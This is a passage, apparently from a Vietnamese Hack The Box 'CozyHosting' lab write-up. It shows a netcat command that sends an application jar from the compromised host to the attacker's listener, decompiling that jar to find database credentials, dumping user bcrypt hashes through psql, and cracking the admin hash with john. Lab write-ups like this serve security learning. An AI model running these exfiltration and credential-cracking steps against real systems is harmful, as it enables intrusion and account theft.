 Lấy file jar này về và thử phân tích

```python
app@cozyhosting:/app$ nc 10.10.14.65 1234 < cloudhosting-0.0.1.jar
nc 10.10.14.65 1234 < cloudhosting-0.0.1.jar
app@cozyhosting:/app$ 
```

```python
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 1234 > cloudhosting-0.0.1.jar
listening on [any] 1234 ...
connect to [10.10.14.65] from (UNKNOWN) [10.10.11.230] 33940
```

Sử dụng [jadx | Kali Linux Tools](https://www.kali.org/tools/jadx/) để mở file jar này. Tôi tìm thấy thông tin đăng nhập vào database postgresql

![postgresql](/assets/img/2023-10-07-HTB-Cozyhosting/9.png)

Quay lại RCE để đăng nhập db

```python
app@cozyhosting:/tmp$ psql -h localhost -p 5432 -U postgres -d cozyhosting
psql -h localhost -p 5432 -U postgres -d cozyhosting
Password for user postgres: Vg&nvzAQ7XxR
```

Một lúc lục lọi thì tôi đã tìm được credentials

```python
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User 
admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Dùng *john* để decrypt hash này

```python
┌──(root㉿kali)-[~]
└─# john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt --format=bcrypt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (admin)     
1g 0:00:00:08 DONE (2023-10-09 10:50) 0.1119g/s 322.5p/s 322.5c/s 322.5C/s mygirl..secrets
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
